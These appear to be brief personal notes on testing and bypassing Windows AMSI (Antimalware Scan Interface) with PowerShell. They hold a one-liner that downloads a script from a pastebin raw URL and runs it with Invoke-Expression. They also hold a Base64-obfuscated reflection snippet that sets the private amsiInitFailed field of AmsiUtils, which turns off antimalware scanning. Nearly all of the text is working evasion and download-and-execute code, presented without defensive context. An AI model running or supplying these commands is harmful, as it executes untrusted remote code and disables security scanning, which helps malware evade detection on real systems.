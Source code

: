 test if AMSI is activated :

 - powershell "Invoke-Expression (Invoke-WebRequest
   http://pastebin.com/raw.php?i=JHhnFV8m)"

- [Reflection.Assembly]::LoadWithPartialName('System.Management.Automation.AmsiUtils')    | Out-Null

Maybe :

- [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

